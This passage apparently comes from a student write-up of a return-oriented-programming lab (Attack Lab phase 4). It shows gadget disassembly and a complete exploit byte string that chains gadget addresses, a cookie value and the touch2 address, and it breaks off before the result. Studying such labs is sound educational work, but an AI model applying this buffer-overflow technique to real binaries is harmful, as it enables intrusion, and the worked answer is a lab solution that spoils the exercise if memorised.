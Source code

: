     - Next, we need the gadget 2 `movq %rax, %rdi` (`48 89 c7`), one of addresses: `0x4019a2`

        ```
        00000000004019a0 <addval_273>:
        4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
        4019a6:	c3                   	ret    
        ```

        ```
        00000000004019c3 <setval_426>:
        4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
        4019c9:	c3                   	ret    
        ```

- Based on the gadgets, we devise the ROP plan

    ![](./images/phase_4_stack_frame.png)

- The phase 4 exploit string is 

    ```
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 /* 40 bytes to fill the stack frame of getbuf */
    ab 19 40 00 00 00 00 00 /* gadget 1 address */
    fa 97 b9 59 00 00 00 00 /* cookie value */
    a2 19 40 00 00 00 00 00 /* gadget 2 address */
    ec 17 40 00 00 00 00 00 /* touch2 address */
    ```

- The result is
